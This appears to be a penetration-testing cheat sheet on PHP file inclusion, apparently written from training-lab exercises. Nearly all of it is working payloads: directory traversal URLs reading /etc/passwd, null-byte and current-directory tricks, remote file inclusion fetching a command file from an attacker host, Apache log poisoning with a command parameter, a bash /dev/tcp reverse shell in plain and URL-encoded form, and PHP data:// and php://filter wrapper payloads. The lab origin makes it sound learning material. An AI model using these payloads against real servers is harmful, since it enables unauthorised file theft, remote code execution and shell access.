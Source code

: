 File Inclusion

![1de19becbf0b23f1b92cb5057bb4f105.png](../../../../_resources/1de19becbf0b23f1b92cb5057bb4f105.png)

# Directory Traversal
```
http://webapp.thm/get.php?file=../../../../etc/passwd
```

# Dir Traversal with null byte (`%00`)
```
http://10.10.155.224/lab3.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd%00
```

NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.

# Current directory trick
```
../../../../etc/passwd/.
```

# curl with null byte
```
curl -X POST 10.10.155.224/challenges/chall3.php -d "file=../../../../etc/flag3%00" -v --output -

0x00
```

# Remote file inclusion
```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt

10.10.155.224/playground.php?file=http://10.2.11.84/cmd.txt
```

```
#At first we need 
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>" 
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php 
```

